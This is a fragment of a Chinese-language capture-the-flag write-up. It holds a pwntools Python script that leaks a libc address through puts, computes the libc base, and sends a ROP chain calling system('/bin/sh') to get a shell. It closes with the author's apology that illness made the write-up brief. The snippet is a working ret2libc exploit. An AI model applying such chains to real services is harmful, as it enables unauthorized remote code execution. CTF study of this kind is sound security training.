 ```python
r.sendline(payload2)
pause()
put_add=u64(r.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
pause()
print(hex(put_add))
pause()
base_add=put_add-libc.sym["puts"]
base_add-=base_add%0x1000 #本地调试时似乎不这样做没法得到正确的基址
system_add=base_add+libc.sym["system"]
binsh_add=base_add+libc.search("/bin/sh").next()
r.sendline(b"aaaa")
payload3=b'a'*24+p64(ch)+b'a'*0x8+p64(rdi_add)+p64(binsh_add)+p64(ret_add)+p64(system_add)
r.sendline(payload3)
r.recv()
r.interactive()
```

​	感觉这次状态很差...在做array这题时就几乎失去逻辑思考能力了,偏移全是靠穷举出的.后面几题更是意识模糊...(当然,并不能将解不出题都归咎到身体不适上)所以请原谅我将writeup写的这么简单.